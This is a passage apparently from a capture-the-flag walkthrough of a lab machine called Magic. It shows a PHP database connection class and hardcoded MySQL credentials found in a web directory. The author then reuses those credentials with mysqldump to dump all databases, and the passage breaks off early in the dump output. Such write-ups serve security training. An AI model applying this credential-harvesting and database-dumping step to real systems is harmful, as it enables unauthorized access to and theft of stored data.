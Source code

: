 ```bash
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
```

We find a database file in /var/www/Magic


```bash
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```
We will now attempt to use `mysqldump` with theese. `Mysql` is not installed on the box that is why we are using `mysqldump`

```bash
$ mysqldump -u theseus --password=iamkingtheseus --single-transaction --all-databases
<iamkingtheseus --single-transaction --all-databases
```

```sql
$ mysqldump -u theseus --password=iamkingtheseus --single-transaction --all-databases
<iamkingtheseus --single-transaction --all-databases
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: 
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

```